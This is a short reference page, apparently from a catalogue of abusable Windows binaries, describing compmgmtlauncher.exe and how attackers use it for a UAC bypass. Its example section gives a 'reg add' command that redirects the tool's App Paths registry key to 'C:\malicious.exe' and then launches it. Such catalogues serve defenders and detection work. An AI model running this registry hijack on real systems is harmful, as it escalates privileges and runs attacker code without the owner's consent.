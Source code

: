 # compmgmtlauncher.exe
## What is it?
*A tool used to launch the Computer Management console.*

## Legitimate Use
- *Administrators use it to manage system settings and services.*

## How to Abuse it
- *Attackers can exploit it for UAC bypass by hijacking registry settings.*

## Example Attacks
```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\compmgmtlauncher.exe /ve /t REG_SZ /d "C:\malicious.exe"

compmgmtlauncher.exe
```
